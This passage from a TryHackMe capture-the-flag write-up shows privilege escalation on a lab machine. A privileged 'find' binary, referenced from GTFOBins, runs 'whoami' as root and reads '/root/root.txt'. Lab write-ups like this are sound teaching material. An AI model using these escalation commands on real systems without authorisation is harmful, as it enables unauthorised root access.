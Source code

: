 ### #3 What did you exploit to get the privileged user?

[find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

```bash
stoner@Vulnerable:~$ find . -exec whoami \; -quit
root
stoner@Vulnerable:~$
```

### #4 root.txt

```bash
stoner@Vulnerable:~$ find . -exec cat /root/root.txt \; -quit
It wasn't that hard, was it?
stoner@Vulnerable:~$
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
